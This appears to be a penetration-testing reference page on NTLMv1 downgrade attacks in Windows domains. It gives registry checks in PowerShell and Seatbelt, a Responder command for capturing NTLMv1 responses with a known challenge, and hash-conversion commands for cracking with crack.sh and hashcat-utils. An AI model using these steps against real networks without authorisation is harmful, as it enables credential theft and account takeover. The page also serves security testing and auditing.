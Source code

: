 # NTLMv1 Downgrade

- [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $value)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149) ([ex](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder with a known challange of `1122334455667788` (see [Coerce Authentication](/pentest/infrastructure/ad/authentication-coercion.md) to trigger callbacks):

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```




## ntlmv1-multi + crack.sh

- [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
- [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
- [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
- [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

Calculate the token:

```
$ python ntlmv1.py --ntlmv1 '<NTLMv1_RESPONSE_STRING>'
```

Check the final 2 bytes (4 characters) of the NT hash:

```
$ ~/tools/hashcat-utils/src/ct3_to_ntlm.bin <CT3> 1122334455667788
```
